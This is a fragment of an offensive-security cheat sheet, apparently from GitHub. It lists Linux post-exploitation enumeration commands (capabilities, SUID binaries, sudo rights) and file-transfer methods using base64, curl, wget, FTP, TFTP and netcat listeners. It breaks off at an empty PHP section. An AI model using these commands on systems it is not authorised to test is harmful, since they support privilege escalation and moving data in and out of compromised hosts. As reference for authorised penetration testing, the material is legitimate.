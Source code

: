 #### [](#header-4) User Installed Software (Sometimes Misconfigured)
```powershell
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/
```

## [](#header-2)POST EXPLOITATION

#### [](#header-4) Get Capabilities
```powershell
/sbin/getcap -r / 2>/dev/null
```

#### [](#header-4) Get SUID Binaries
```powershell
find / -perm -u=s -type f 2>/dev/null
```

#### [](#header-4) Check Sudo Config
```powershell
sudo -l
```

## [](#header-2)FILE TRANSFERS

#### [](#header-4) Base64
```powershell
cat file.transfer | base64 -w 0 
echo base64blob | base64 -d > file.transfer
```
#### [](#header-4) Curl
```powershell
curl http://webserver/file.txt > output.txt
```
#### [](#header-4) wget
```powershell
wget http://webserver/file.txt > output.txt
```
#### [](#header-4) FTP
```powershell
pip install pyftpdlib
python -m pyftpdlib -p 21 -w
```
#### [](#header-4) TFTP
```powershell
service atftpd start
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
auxiliary/server/tftp
```
#### [](#header-4) NC Listeners
```powershell
nc -lvnp 443 < filetotransfer.txt
nc [Ip] 443 > filetransfer.txt 
```
#### [](#header-4) PHP File Transfers
```powershell
```